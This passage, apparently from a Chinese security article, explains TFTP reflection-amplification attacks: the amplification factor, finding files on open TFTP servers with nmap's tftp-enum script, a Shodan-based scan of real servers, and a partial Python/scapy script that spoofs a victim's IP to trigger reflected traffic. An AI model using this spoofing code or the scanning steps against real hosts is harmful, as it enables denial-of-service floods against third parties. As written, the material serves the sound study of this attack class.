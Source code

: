 ![](http://drops.javaweb.org/uploads/images/ef24d54e241c93abdf9dc24a1430f305a444e3ba.jpg)

在论文中的tftpd32版本可能有所不同，反射因子为`59.78`，这个放大因子和其他反射放大攻击相比较还是很可观的：

![](http://drops.javaweb.org/uploads/images/988085d35adf2123afeadeaaf4ef8e1c358d44f0.jpg)

0x04 限制及解决方案
=====

在以上的测试过程中，对于TFTP反射放大攻击利用的限制点主要有三点：

**1. 获取TFTP服务器上存在的文件名**

虽然服务器端无认证过程可以随意登录，但是无法列目录，而造成反射的基础就是需要服务端能够发送出DATA数据包。这就需要我们一个个`get`测试看看TFTP服务器上存在哪些常见的文件了，我们可以对思科（广泛使用TFTP服务）设备文件和其他你认为有可能存在的文件进行测试。还好[nmap](http://seclists.org/nmap-dev/2011/q2/730)在这里给我们提供了一个[tftp-enum.nse](https://nmap.org/nsedoc/scripts/tftp-enum.html)脚本，可以如下使用：

```
$ sudo nmap -sU -p 69 --script tftp-enum.nse --script-args="tftp-enum.filelist=customlist.txt" <host>

```

如果未加`--script-args`的话，脚本会默认调用[tftplist.txt](https://github.com/nmap/nmap/blob/master/nselib/data/tftplist.txt)文件去枚举可能存在的文件。当然，`tftp-enum.filelist`可以指定自定义的列表进行枚举扫描。测试结果示例如下：

![](http://drops.javaweb.org/uploads/images/2e2c8d939e6c5762c154b4298b77c928f540e55f.jpg)

论文当中说是有[599600](http://internetcensus2012.bitbucket.org/serviceprobe_overview.html)台（2012年扫描结果）对外开放的TFTP服务器可能会被用来进行发射放大攻击，但在[shodan](https://www.shodan.io/search?query=tftp)上搜索`tftp`的结果也只有10w左右的样子，可能有待进一步的扫描发现。以下是我在[shodan](https://shodanio.wordpress.com/2014/12/01/using-shodan-from-the-command-line/)中搜索出的999个IP进行测试，其中有47个服务器可以`get`到默认的文件：

![](http://drops.javaweb.org/uploads/images/e6d08f37c29c45555cecb9baa3e3a01bfa13f958.jpg)

**2. TFTP服务器上已知文件的大小**

反射过来的DATA数据包的大小取决于读取文件的内容大小，这样就决定了我们最终反射放大的程度（相对于已知文件的文件名长度——影响请求包大小）。如果DATA数据包过小造成的影响也就很有限的了。

**3. 确定TFTP服务器可利用**

除了以上两点，如果存在其他的过滤机制，我们最终就需要测试一下该TFTP服务是否可利用，在攻击端伪造简单的数据包触发其反射到指定的主机上，代码如下：

```
#!/usr/bin/env python
#coding=utf-8    

import optparse
import sys
import logging    

from scapy.all import *    

class Trigger(object):
    def __init__(self, target, port, filename, server):
        logging.getLogger('scapy.runtime').setLevel(logging.ERROR)
        self.target = target
        self.port = port
        self.filename = filename
        self.server = server    

    def run(self):
        t = IP(src=self.target, dst=self.server)/UDP(sport=self.port, dport=69)/TFTP()/TFTP_RRQ(filename=self.filename)
        send(t)
        print '[+] The trigger has benn sent !'    

if __name__ == '__main__':
    parser = optparse.OptionParser('uasge: %prog [options]')
```